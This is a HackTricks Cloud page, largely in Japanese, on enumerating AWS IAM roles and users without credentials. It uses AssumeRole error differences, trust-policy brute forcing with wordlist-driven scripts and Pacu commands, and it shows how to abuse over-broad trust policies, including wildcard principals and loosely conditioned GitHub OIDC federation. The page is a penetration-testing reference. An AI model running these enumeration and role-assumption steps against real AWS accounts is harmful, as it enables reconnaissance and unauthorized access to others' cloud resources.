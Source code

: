 # AWS - IAM & STS Unauthenticated Enum

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter**で**@hacktricks_live**をフォローする
* **HackTricks**および**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する

</details>

## アカウント内のロールとユーザー名を列挙する

### ~~ロールのブルートフォース~~

{% hint style="danger" %}
**このテクニックはもはや機能しません**。ロールが存在しているかどうかに関係なく、常に次のエラーが表示されます：

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

次のコマンドを実行して**テストできます**：

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

**必要な権限なしでロールを仮定しようとする**と、AWSはエラーメッセージを返します。たとえば、権限がない場合、AWSは次のように返すかもしれません：
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
このメッセージは、ロールの存在を確認しますが、そのアサムロールポリシーがあなたのアサンプションを許可していないことを示しています。一方、**存在しないロールをアサムすると、異なるエラーが発生**します：
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
興味深いことに、**既存の役割と存在しない役割を区別する方法**は、異なるAWSアカウント間でも適用可能です。有効なAWSアカウントIDとターゲットワードリストを使用すると、特定の制限に直面せずにアカウント内の役割を列挙できます。

この[スクリプトを使用して潜在的なプリンシパルを列挙](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum)することで、この問題を悪用できます。

### 信頼ポリシー：クロスアカウントの役割とユーザーを総当たり攻撃する

IAMロールの信頼ポリシーを構成または更新するときは、そのロールを**仮想的に引き受けることが許可されるAWSリソースやサービスを定義**する必要があります。ポリシー内の指定されたリソースが**存在する**場合、信頼ポリシーは**正常に保存**されます。ただし、リソースが**存在しない**場合、無効なプリンシパルが提供されたことを示す**エラーが生成**されます。

{% hint style="warning" %}
このリソースでは、クロスアカウントの役割またはユーザーを指定できます:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

これはポリシーの例です:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

これは、存在しないロールを使用すると見つかる**エラー**です。ロールが**存在**する場合、ポリシーは**エラーなし**で保存されます。（エラーは更新時に発生しますが、作成時にも機能します）

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
You can automate this process with [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Our using [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* The `admin` role used in the example is a **role in your account to by impersonated** by pacu to create the policies it needs to create for the enumeration

### Privesc

In the case the role was bad configured an allows anyone to assume it:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
攻撃者はそれを仮定するだけです。

## サードパーティOIDCフェデレーション

**AWS** 内の **ロール** にアクセスしている **Github Actions ワークフロー** を読むことに成功したと想像してください。\
この信頼は、次の **信頼ポリシー** を持つロールへのアクセスを提供するかもしれません：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
この信頼ポリシーは正しいかもしれませんが、**さらなる条件の不足**から疑念を抱くべきです。\
これは以前のロールが**Github Actionsの誰でも**によって仮定される可能性があるためです！組織名、リポジトリ名、環境、ブランチなど、条件に他の情報も指定すべきです。

もう1つの潜在的な設定ミスは、次のような条件を**追加する**ことです：
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
注意：**コロン**（:）の前に**ワイルドカード**（\*）があります。**org\_name1**などの組織を作成し、Github Actionから**ロールを仮定**することができます。

## 参考文献

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)を**フォロー**する。
* **HackTricks**（https://github.com/carlospolop/hacktricks）および**HackTricks Cloud**（https://github.com/carlospolop/hacktricks-cloud）のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
